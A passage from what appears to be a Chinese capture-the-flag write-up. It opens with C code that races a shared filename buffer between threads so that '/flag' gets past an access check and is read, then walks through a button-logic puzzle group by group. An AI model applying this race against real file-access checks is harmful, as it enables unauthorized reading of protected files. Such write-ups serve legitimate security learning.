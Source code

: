 ```c
        fn[1] = 'a';
        fn[1] = 'f';
    }
}

int main() {
    void *child_stack = malloc(4096);
    clone(&work, child_stack+4096, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES|CLONE_THREAD, NULL);
    memcpy(fn, "/flag", 6);
    char buf[100];
    for (int i = 0; i < 100000; i++) {
        FILE *f = fopen(fn, "r");
        if (f) {
            int n = fread(buf, 1, 100, f);
            if (buf[0] == 'f') fwrite(buf, 1, n, stdout);
            fclose(f);
        }
    }
}
```

# 异星歧途

不难看出，按钮分为四组。查看逻辑可以发现，每组基本独立。

## 第一组

![](hg2023/11.png)

在逻辑中，每个按钮的取值都直接给出了。需要注意的是，这里给出的是，每个按钮如果是这个状态，就不让启动发动机了，所以还需要取反。

## 第二组

8 个按钮先被转为了一个 8 bit 的数。

![](hg2023/12.png)

然后会检查这个数是不是平方数：（我最开始一直以为那个是异或，然后就发现符合条件的情况不止一种）

![](hg2023/13.png)

最后还会检查两个 bit，这就可以唯一确定答案了：

![](hg2023/14.png)

## 第三组

这组大部分逻辑都是开某个机器，但是有一些逻辑比较坑，开了就爆炸。总之只能多试试得出答案了。

## 第四组
